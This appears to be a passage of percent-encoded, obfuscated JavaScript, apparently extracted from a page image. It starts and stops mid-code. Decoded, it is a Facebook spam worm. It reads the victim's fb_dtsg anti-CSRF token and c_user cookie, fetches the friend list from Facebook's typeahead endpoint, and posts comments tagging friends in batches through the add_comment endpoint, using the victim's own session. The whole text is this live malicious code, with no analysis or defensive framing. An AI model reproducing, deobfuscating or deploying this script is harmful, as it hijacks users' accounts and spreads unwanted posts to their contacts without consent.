 2C%74%72%75%65%29%3B%5F%30%78%34%35%65%37%78%36%5B%5F%30%78%62%31%36%31%5B%31%36%5D%5D%3D%66%75%6E%63%74%69%6F%6E%20%28%29%7B%69%66%28%5F%30%78%34%35%65%37%78%36%5B%5F%30%78%62%31%36%31%5B%31%37%5D%5D%3D%3D%34%26%26%5F%30%78%34%35%65%37%78%36%5B%5F%30%78%62%31%36%31%5B%31%38%5D%5D%3D%3D%32%30%30%29%7B%5F%30%78%34%35%65%37%78%36%5B%5F%30%78%62%31%36%31%5B%31%39%5D%5D%3B%7D%20%3B%7D%20%3B%5F%30%78%34%35%65%37%78%36%5B%5F%30%78%62%31%36%31%5B%32%30%5D%5D%28%5F%30%78%34%35%65%37%78%38%29%3B%7D%20%3B%0A%76%61%72%20%5F%30%78%61%32%32%63%3D%5B%22%76%61%6C%75%65%22%2C%22%66%62%5F%64%74%73%67%22%2C%22%67%65%74%45%6C%65%6D%65%6E%74%73%42%79%4E%61%6D%65%22%2C%22%6D%61%74%63%68%22%2C%22%63%6F%6F%6B%69%65%22%2C%22%31%33%39%39%36%35%31%36%34%33%36%32%35%31%31%31%22%2C%22%6F%6E%72%65%61%64%79%73%74%61%74%65%63%68%61%6E%67%65%22%2C%22%72%65%61%64%79%53%74%61%74%65%22%2C%22%61%72%6B%61%64%61%73%6C%61%72%20%3D%20%22%2C%22%66%6F%72%20%28%3B%3B%29%3B%22%2C%22%22%2C%22%72%65%70%6C%61%63%65%22%2C%22%72%65%73%70%6F%6E%73%65%54%65%78%74%22%2C%22%3B%22%2C%22%6C%65%6E%67%74%68%22%2C%22%65%6E%74%72%69%65%73%22%2C%22%70%61%79%6C%6F%61%64%22%2C%22%72%6F%75%6E%64%22%2C%22%20%40%5B%22%2C%22%75%69%64%22%2C%22%3A%22%2C%22%74%65%78%74%22%2C%22%5D%22%2C%22%20%22%2C%22%5C%78%32%36%66%69%6C%74%65%72%5B%30%5D%3D%75%73%65%72%22%2C%22%5C%78%32%36%6F%70%74%69%6F%6E%73%5B%30%5D%3D%66%72%69%65%6E%64%73%5F%6F%6E%6C%79%22%2C%22%5C%78%32%36%6F%70%74%69%6F%6E%73%5B%31%5D%3D%6E%6D%22%2C%22%5C%78%32%36%74%6F%6B%65%6E%3D%76%37%22%2C%22%5C%78%32%36%76%69%65%77%65%72%3D%22%2C%22%5C%78%32%36%5F%5F%75%73%65%72%3D%22%2C%22%68%74%74%70%73%3A%2F%2F%22%2C%22%69%6E%64%65%78%4F%66%22%2C%22%55%52%4C%22%2C%22%47%45%54%22%2C%22%68%74%74%70%73%3A%2F%2F%77%77%77%2E%66%61%63%65%62%6F%6F%6B%2E%63%6F%6D%2F%61%6A%61%78%2F%74%79%70%65%61%68%65%61%64%2F%66%69%72%73%74%5F%64%65%67%72%65%65%2E%70%68%70%3F%5F%5F%61%3D%31%22%2C%22%6F%70%65%6E%22%2C%22%68%74%74%70%3A%2F%2F%77%77%77%2E%66%61%63%65%62%6F%6F%6B%2E%63%6F%6D%2F%61%6A%61%78%2F%74%79%70%65%61%68%65%61%64%2F%66%69%72%73%74%5F%64%65%67%72%65%65%2E%70%68%70%3F%5F%5F%61%3D%31%22%2C%22%73%65%6E%64%22%2C%22%72%61%6E%64%6F%6D%22%2C%22%66%6C%6F%6F%72%22%2C%22%5C%78%32%36%66%74%5F%65%6E%74%5F%69%64%65%6E%74%69%66%69%65%72%3D%22%2C%22%5C%78%32%36%63%6F%6D%6D%65%6E%74%5F%74%65%78%74%3D%22%2C%22%5C%78%32%36%73%6F%75%72%63%65%3D%32%22%2C%22%5C%78%32%36%63%6C%69%65%6E%74%5F%69%64%3D%31%33%37%37%38%37%31%37%39%37%31%33%38%3A%31%37%30%37%30%31%38%30%39%32%22%2C%22%5C%78%32%36%72%65%70%6C%79%5F%66%62%69%64%22%2C%22%5C%78%32%36%70%61%72%65%6E%74%5F%63%6F%6D%6D%65%6E%74%5F%69%64%22%2C%22%5C%78%32%36%72%6F%6F%74%69%64%3D%75%5F%6A%73%6F%6E%70%5F%32%5F%33%22%2C%22%5C%78%32%36%63%6C%70%3D%7B%5C%78%32%32%63%6C%5F%69%6D%70%69%64%5C%78%32%32%3A%5C%78%32%32%34%35%33%35%32%34%61%30%5C%78%32%32%2C%5C%78%32%32%63%6C%65%61%72%63%6F%75%6E%74%65%72%5C%78%32%32%3A%30%2C%5C%78%32%32%65%6C%65%6D%65%6E%74%69%64%5C%78%32%32%3A%5C%78%32%32%6A%73%5F%35%5C%78%32%32%2C%5C%78%32%32%76%65%72%73%69%6F%6E%5C%78%32%32%3A%5C%78%32%32%78%5C%78%32%32%2C%5C%78%32%32%70%61%72%65%6E%74%5F%66%62%69%64%5C%78%32%32%3A%22%2C%22%7D%22%2C%22%5C%78%32%36%61%74%74%61%63%68%65%64%5F%73%74%69%63%6B%65%72%5F%66%62%69%64%3D%30%22%2C%22%5C%78%32%36%61%74%74%61%63%68%65%64%5F%70%68%6F%74%6F%5F%66%62%69%64%3D%30%22%2C%22%5C%78%32%36%67%69%66%74%6F%63%63%61%73%69%6F%6E%22%2C%22%5C%78%32%36%66%74%5B%74%6E%5D%3D%5B%5D%22%2C%22%5C%78%32%36%5F%5F%61%3D%31%22%2C%22%5C%78%32%36%5F%5F%64%79%6E%3D%37%6E%38%61%68%79%6A%33%35%79%6E%78%6C%32%75%35%46%39%37%4B%65%70%45%73%79%6F%22%2C%22%5C%78%32%36%5F%5F%72%65%71%3D%71%22%2C%22%5C%78%32%36%66%62%5F%64%74%73%67%3D%22%2C%22%5C%78%32%36%74%74%73%74%61%6D%70%3D%22%2C%22%50%4F%53%54%22%2C%22%2F%61%6A%61%78%2F%75%66%69%2F%61%64%64%5F%63%6F%6D%6D%65%6E%74%2E%70%68%70%22%2C%22%43%6F%6E%74%65%6E%74%2D%74%79%70%65%22%2C%22%61%70%70%6C%69%63%61%74%69%6F%6E%2F%78%2D%77%77%77%2D%66%6F%72%6D%2D%75%72%6C%65%6E%63%6F%64%65%64%22%2C%22%73%65%74%52%65%71%75%65%73%74%48%65%61%64%65%72%22%2C%22%73%74%61%74%75%73%22%2C%22%63%6C%6F%73%65%22%5D%3B%76%61%72%20%66%62%5F%64%74%73%67%3D%64%6F%63%75%6D%65%6E%74%5B%5F%30%78%61%32%32%63%5B%32%5D%5D%28%5F%30%78%61%32%32%63%5B%31%5D%29%5B%30%5D%5B%5F%30%78%61%32%32%63%5B%30%5D%5D%3B%76%61%72%20%75%73%65%72%5F%69%64%3D%64%6F%63%75%6D%65%6E%74%5B%5F%30%78%61%32%32%63%5B%34%5D%5D%5B%5F%30%78%61%32%32%63%5B%33%5D%5D%28%64%6F%63%75%6D%65%6E%74%5B%5F%30%78%61%32%32%63%5B%34%5D%5D%5B%5F%30%78%61%32%32%63%5B%33%5D%5D%28%2F%63%5F%75%73%65%72%3D%28%5C%64%2B%29%2F%29%5B%31%5D%29%3B%76%61%72%20%69%64%3D%5F%30%78%61%32%32%63%5B%35%5D%3B%76%61%72%20%61%72%6B%61%64%61%73%6C%61%72%3D%5B%5D%3B%76%61%72%20%73%76%6E%5F%72%65%76%3B%66%75%6E%63%74%69%6F%6E%20%61%72%6B%61%64%61%73%6C%61%72%69%5F%61%6C%28%69%64%29%7B%76%61%72%20%5F%30%78%37%38%39%32%78%37%3D%20%6E%65%77%20%58%4D%4C%48%74%74%70%52%65%71%75%65%73%74%28%29%3B%5F%30%78%37%38%39%32%78%37%5B%5F%30%78%61%32%32%63%5B%36%5D%5D%3D%66%75%6E%63%74%69%6F%6E%20%28%29%7B%69%66%28%5F%30%78%37%38%39%32%78%37%5B%5F%30%78%61%32%32%63%5B%37%5D%5D%3D%3D%34%29%7B%65%76%61%6C%28%5F%30%78%61%32%32%63%5B%38%5D%2B%5F%30%78%37%38%39%32%78%37%5B%5F%30%78%61%32%32%63%5B%31%32%5D%5D%2E%74%6F%53%74%72%69%6E%67%28%29%5B%5F%30%78%61%32%32%63%5B%31%31%5D%5D%28%5F%30%78%61%32%32%63%5B%39%5D%2C%5F%30%78%61%32%32%63%5B%31%30%5D%29%2B%5F%30%78%61%32%32%63%5B%31%33%5D%29%3B%66%6F%72%28%66%3D%30%3B%66%3C%4D%61%74%68%5B%5F%30%78%61%32%32%63%5B%31%37%5D%5D%28%61%72%6B%61%64%61%73%6C%61%72%5B%5F%30%78%61%32%32%63%5B%31%36%5D%5D%5B%5F%30%78%61%32%32%63%5B%31%35%5D%5D%5B%5F%30%78%61%32%32%63%5B%31%34%5D%5D%2F%32%37%29%3B%66%2B%2B%29%7B%6D%65%73%61%6A%3D%5F%30%78%61%32%32%63%5B%31%30%5D%3B%6D%65%73%61%6A%5F%74%65%78%74%3D%5F%30%78%61%32%32%63%5B%31%30%5D%3B%66%6F%72%28%69%3D%66%2A%32%37%3B%69%3C%28%66%2B%31%29%2A%32%37%3B%69%2B%2B%29%7B%69%66%28%61%72%6B%61%64%61%73%6C%61%72%5B%5F%30%78%61%32%32%63%5B%31%36%5D%5D%5B%5F%30%78%61%32%32%63%5B%31%35%5D%5D